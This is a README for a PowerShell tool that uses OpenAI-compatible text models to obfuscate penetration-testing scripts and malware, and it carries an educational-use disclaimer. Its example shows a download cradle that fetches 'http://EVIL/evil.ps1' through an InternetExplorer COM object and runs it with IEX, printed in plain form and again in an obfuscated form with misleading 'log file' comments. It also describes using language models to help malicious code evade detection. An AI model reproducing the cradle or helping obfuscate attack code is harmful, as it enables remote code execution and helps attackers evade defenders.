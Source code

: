 # Invoke-GPTObfuscation
Invoke-GPTObfuscation is a PowerShell Obfuscator that utilizes OpenAI or compatible text-completion models to obfuscate your PowerShell penetration testing code, malware, or any other sensitive script. For Educational & Research purposes only.

This is mostly demonstrational, and will frequently create invalid code. You'll need to come up with a better prompt to get good results. If you make any improvements, please consider submitting a pull request!

---

## Credits
### Author: Hunter Watson
### Original Repo: https://github.com/hwvs/Invoke-GPTObfuscation
### License: Mozilla Public License 2.0

---

## Results 

Before:
```powershell
$ie=New-Object -comobject InternetExplorer.Application;
$ie.visible=$False;
$ie.navigate('http://EVIL/evil.ps1');
start-sleep -s 5;
$r=$ie.Document.body.innerHTML;
$ie.quit();
IEX $r
```

After:
```powershell
# generating Log files
$Strawberry = New-Object -CoMObjEcT inTErnETeXPLOreR.Application;
$strawberry.vISiblE = $fAlSe;
$STRaWbeRRy.NAVigatE('HttP://evIl/evil.ps1');
stArT-SlEEp -s 5;

# Updating log directory path
$r = $StrawberrY.DoCument.BoDy.InneRHTML;

# Cleanup
$strawBerRy.quiT();

# Execute payload
IeX $R
```

---

## Usage

Run the CLI tool (in a powershell window): `./Invoke-GPTObfuscation.ps1`

Use the module in your code
```powershell
# load the module however is easiest for you, eg:
$module_path = $pwd.Path + "/Invoke-GPTObfuscation.psm1"
Invoke-Expression (Get-Content $module_path -Raw)
  
#...

$script_obfuscated = Invoke-GPTObfuscation -ScriptBlock $script -PromptTemplateFile $prompt_template_path -Verbose $true
```
